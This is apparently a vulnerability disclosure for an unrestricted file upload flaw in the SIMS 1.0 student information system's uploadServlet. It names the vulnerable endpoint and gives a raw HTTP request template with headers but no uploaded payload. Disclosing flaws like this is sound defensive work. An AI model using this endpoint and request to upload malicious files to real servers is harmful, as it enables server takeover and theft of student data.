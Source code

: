 ### **Unrestricted Upload of File with Dangerous Type**

#### **[Suggested description]**

Unrestricted Upload of File with Dangerous Type vulnerability exists in SIMS. This open source system is a student information management system. There is an insecure vulnerability when uploading attachments. An attacker could exploit this vulnerability to gain server privileges.
POST: http://localhost:8081/sims/uploadServlet

#### [Vulnerability Type]

Unrestricted Upload of File with Dangerous Type

#### **[Vendor of Product]**

https://github.com/rawchen/sims

#### **[Affected Product Code Base]**

1.0

#### **[Affected Component]**

Sims 1.0

OS: Windows/Linux/macOS

Browser: Chrome、Firefox、Safari

#### **[Attack vector]**

```
POST /sims/uploadServlet HTTP/1.1

Host: localhost:8081

Content-Length: 2817

Cache-Control: max-age=0

sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="102", "Microsoft Edge";v="102"

sec-ch-ua-mobile: ?0

sec-ch-ua-platform: "Windows"

Upgrade-Insecure-Requests: 1

Origin: http://localhost:8081

Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryEKdAQSnCqiCiMhL0

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.124 Safari/537.36 Edg/102.0.1245.44

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Sec-Fetch-Site: same-origin

Sec-Fetch-Mode: navigate

Sec-Fetch-User: ?1

Sec-Fetch-Dest: document

Referer: http://localhost:8081/sims/fileServlet
```